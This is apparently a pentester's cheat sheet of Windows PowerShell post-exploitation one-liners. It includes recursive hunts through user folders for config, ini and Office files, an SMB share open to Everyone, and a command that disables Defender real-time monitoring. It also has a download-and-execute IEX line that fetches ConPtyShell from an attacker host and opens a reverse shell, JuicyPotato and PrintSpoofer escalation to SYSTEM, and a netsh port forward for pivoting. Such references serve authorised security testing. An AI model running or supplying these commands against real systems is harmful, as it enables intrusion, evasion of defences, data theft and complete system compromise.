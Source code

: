 # PowerShell 
% testerix

## PowerShell - search for specific file endign
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Path C:\<path> -Include *.<file_ending> -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - search all .txt & .ini files
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.ini -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - search ALL
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.config,*.ini -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - create SMB share
#platform/windows #target/local #cat/OWN
```
New-SmbShare -Name "Share" -Path "<path|C:\Users\Public>" -FullAccess "Everyone"
```

## PowerShell - recursivly search for keyword in files
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Recurse -Force | Select-String -Pattern '<pattern>'
```

## PowerShell - get 
#platform/windows #target/local #cat/OWN
```
$env:PATH -split ';'
```

% valfaris

## PowerShell - download file via Invoke-WebRequest
```
iwr -uri http://<ip>:2337/<path>/<file> -Outfile <file>
```

## PowerShell - disable Microsoft Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

## PowerShell - download and execute ConPtyShell
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile IEX(IWR http://<ip>:<port|2337>/Windows/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <ip> <port|6666>
```

## ConPtyShell - set terminal size again
```
$width=211 $height=39 $Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height) $Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```


## JuicyPotato - escalate to SYSTEM via SetImpersonatePrivileges
```
.\JuicyPotato32.exe -l 1337 -p C:\inetpub\wwwroot\rev.exe -t * -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
```

## PrintSpoofer - escalate to SYSTEM via SetImpersonatePrivileges (Windows 10 and Server 2019)
```
.\PrintSpoofer64.exe -c powershell.exe
```

## JuicyPotatoNG - escalate to SYSTEM via SetImpersonatePrivileges (Windows 11 and Server 2022)
```
.\JuicyPotatoNG.exe -t * -p "C:\Users\public\conptyshell.exe" -a "192.168.45.211 7777"
```



## netsh - create port forward [ADMIN]
```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

## PowerUp.ps1 - invoke all checks
```
Invoke-AllChecks
```